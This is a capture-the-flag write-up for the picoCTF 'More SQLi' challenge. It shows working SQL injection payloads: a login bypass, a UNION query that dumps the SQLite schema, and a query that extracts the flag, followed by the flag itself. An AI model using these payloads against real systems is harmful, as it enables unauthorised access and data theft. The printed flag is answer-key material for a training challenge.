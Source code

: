 # More SQLi

## Challenge

### Description

Can you find the flag on this website.

### Hints

1. SQLiLite

## Solution

Use SQL Injection attack to log in.

```
Username: admin
Password: ' OR '1'=='1'--
```

We are greeted with a table. Because this website use SQLite, we can see all other tables and their schema with

```
' UNION SELECT type,name,sql FROM sqlite_master;
```

The resulting table is

City 	Address 	Phone
index	sqlite_autoindex_users_1	
table	hints	CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
table	more_table	CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
table	offices	CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)
table	users	CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)

The table `hints` is actually useless. The flag is in `more_table`.

```
' UNION SELECT flag,flag,flag FROM more_table;
```

## Flag

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}
